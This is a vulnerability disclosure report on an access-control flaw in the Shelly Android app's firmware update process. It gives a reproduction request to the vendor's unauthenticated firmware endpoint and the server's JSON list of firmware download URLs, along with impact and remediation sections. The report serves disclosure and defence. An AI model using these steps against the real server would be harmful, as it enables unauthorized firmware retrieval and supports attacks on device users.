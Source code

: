 # Vulnerability Report - com.home.shelly- Incorrect Access Control

**Product:** `com.home.shelly` 

**Vendor:** [Shelly](https://www.shelly.com/)

**Version:** 1.0.4

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.home.shelly` , developed by Shelly, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

> Although the vendor has discontinued the use of the application, the URL for obtaining firmware has not been deprecated.

## Reproduction Steps

1. The `checkFirmware(JSONObject)` method in the `BackgroundFCMHandler` class provides the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241002220234191](https://s2.loli.net/2024/10/02/Mg3u1S64IcCW97m.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://api.shelly.cloud/files/firmware HTTP/1.1
   Host: api.shelly.cloud
   Content-Type: text/plain
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Server: nginx/1.18.0 (Ubuntu)
   Date: Wed, 02 Oct 2024 14:04:10 GMT
   Content-Type: application/json
   Transfer-Encoding: chunked
   Connection: keep-alive
   Access-Control-Allow-Origin: *
   Access-Control-Allow-Methods: GET,POST,OPTIONS
   Access-Control-Allow-Headers: X-CustomHeader,Keep-Alive,User-Agent,Cache-Control,Content-Type,Authorization
   Access-Control-Expose-Headers: X-CustomHeader,Keep-Alive,User-Agent,Cache-Control,Content-Type,Authorization
   
   1eab
   {"isok":true,"data":{"SHPLG-1":{"url":"http:\/\/firmware.shelly.cloud\/gen1\/SHPLG-1.zip","version":"20210115-103101\/v1.9.4@e2732e05"},"SHPLG-S":{"url":"http:\/\/firmware.shelly.cloud\/gen1\/SHPLG-S.zip","version":"20230913-113421\/v1.14.0-gcb84623","beta_url":"http:\/\/firmware.shelly.cloud\/gen1\/rc\/SHPLG-S.zip","beta_ver":"20231107-164219\/v1.14.1-rc1-g0617c15"},"SHPLG-IT1":{"url":"http:\/\/firmware.shelly.cloud\/gen1\/SHPLG-IT1.zip","version":"20211109-130408\/v1.11.7-g682a0db"},"SHPLG-UK1":{"url":"http:\/\/firmware.shelly.cloud\/gen1\/SHPLG-UK1.zip","version":"20211109-130512\/v1.11.7-g682a0db"},"SHPLG-AU1":{"url":"http:\/\/firmware.shelly.cloud\/gen1\/SHPLG-AU1.zip","version":"20211109-130618\/v1.11.7-g682a0db"},"SHPLG-U1":{"url":"http:\/\/firmware.shelly.cloud\/gen1\/SHPLG-U1.zip","version":"20230913-113516\/v1.14.0-gcb84623","beta_url":"http:\/\/firmware.shelly.cloud\/gen1\/rc\/SHPLG-U1.zip","beta_ver":"20231107-164310\/v1.14.1-rc1-g0617c15"},"SHPLG2-1":{"url":"http:\/\/firmware.shelly.cloud\/gen1\/SHPLG2-1.zip","version":"20230913-113610\/v1.14.0-gcb84623","beta_url":"http:\/\/firmware.shelly.cloud\/gen1\/rc\/SHPLG2-1.zip","beta_ver":"20231107-164401\/v1.14.1-rc1-g0617c15"},
   ......
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.
   ![image-20241002220700908](https://s2.loli.net/2024/10/02/P7avbuYGI2osA56.png)

   ![image-20241002220723797](https://s2.loli.net/2024/10/02/rIWzDyNtdgv1Mme.png)


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.
* Deprecate the firmware download links used in the old app.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.